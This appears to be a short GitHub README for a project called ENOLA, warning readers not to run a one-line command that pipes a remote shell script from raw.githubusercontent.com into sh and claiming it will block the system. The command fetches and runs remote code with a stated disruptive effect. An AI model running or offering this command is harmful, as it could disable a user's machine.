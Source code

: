 # ENOLA

Don't run this :

`curl https://raw.githubusercontent.com/Prophidys/ENOLA/master/enola.sh | sh`

It will block your system.
